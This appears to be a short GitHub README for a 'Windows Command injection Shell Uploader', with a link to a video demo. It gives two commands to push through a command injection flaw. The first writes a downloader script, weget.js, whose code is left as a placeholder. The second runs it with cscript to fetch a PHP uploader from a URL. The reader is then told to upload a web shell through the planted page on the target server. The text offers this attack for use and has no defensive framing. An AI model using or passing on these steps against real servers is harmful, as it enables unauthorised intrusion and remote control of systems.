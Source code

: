 # Windows Command injection Shell Uploader
Upload shell in windows server using command injection vulnerbility.

# Steps

* echo put wget.js file code here >weget.js
* cscript /nologo weget.js http://localhost/wci_shell_uploader.php

After those two commands your get shell uploader at http://target.com/shell.php go on this link & upload your shell or files. 
[![Windows Command injection Shell Uploader](http://img.youtube.com/vi/H5F93uEK7ME/0.jpg)](http://www.youtube.com/watch?v=H5F93uEK7ME)

